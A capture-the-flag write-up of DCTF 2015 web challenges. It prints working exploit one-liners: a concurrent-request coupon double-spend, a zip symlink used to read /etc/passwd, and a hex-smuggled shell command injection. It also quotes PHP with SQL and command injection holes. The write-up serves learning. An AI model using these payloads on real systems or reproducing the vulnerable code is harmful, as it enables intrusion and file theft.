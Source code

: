 ```yaml
---
title:      DCTF 2015 - Web Challenges
author:     Filippo "fcremo" Cremonese, Alessandro "cube" De Vito
date:       2015-10-11 09:00:00
summary:    Web web web!
categories: DCTF2015 Web
tags:
 - DCTF
 - Web
---
```

## Web100
This challenge was quite straightforward: we only had a textual input field and the suggestion to use the coupon (DCTF_ADD_MONEY).
That coupon could normally be used just a single time, but the goal was to get more money than a single coupon would give you.
The challenge could be solved using just the shell and a one liner:









```
$ curl --data "code=DCTF_ADD_MONEY" -b "PHPSESSID=abcdefghirandomrandom" "http://10.13.37.2/" & curl --data "code=DCTF_ADD_MONEY" -b "PHPSESSID=abcdefghirandomrandom" "http://10.13.37.2/"
```
## Web200
We had a service that allowed you to upload zip files, decompressed them and let you download the contents. There was a comment in the HTML source: `getent passwd | grep someuser | cut ...` (sorry, I haven't saved the specific command).
I created a zip file containing a simbolic link to `/etc/passwd`:
```
$ ln -s /etc/passwd mylink
$ zip archive.zip mylink
```
I uploaded the archive and... nothing, the website didn't display my file.
The service allowed you to see the debug logs of the unzip command executed server side and in the logs I could see my link was being extracted correctly, so I tried to manually download the passwd file manipulating the download url of another archive I uploaded earlier and it worked!

## Web300
Coming soon!

## Web400 (CSS Engineer)
The php code that allowed you to get the user images used `cat`
```
$ curl "http://10.13.37.5/?id=2&usr=1"
cat: images/2_6.jpg: No such file or directory
```
 and was vulnerable to command injection.
 because it constructed the path to output from user input without sanitizing it correctly.

Again, this challenge was doable with a one liner:
```
$ curl `python2 -c "print 'http://10.13.37.5/?id=0x' + '../*; #'.encode('hex') + '&usr=1"`
```

The reason this works was because id was used in an SQL query and got converted to a string:
{% highlight php startinline=True %}
if(isset($_GET['id'], $_GET['usr'])) {
    if(!is_numeric($_GET['id']) || !is_numeric($_GET['usr'])) {
        die('ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) <br><img src="data:image/jpeg;base64,...');
	}

    $q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    header('Content-Type: image/jpeg');
    echo shell_exec("cat images/$path 2>&1");
} else {
    echo '<h1>List of some users! I don\'t know CSS! :(</h1>';
    $q = mysql_query('SELECT * FROM `images`');
    while($row = mysql_fetch_array($q)) {
        echo '<h3>'.$row['user'].'</h3>';
        echo '<img src="?id='.$row['id'].'&usr='.$row['id'].'">';
    }
}
{% endhighlight %}
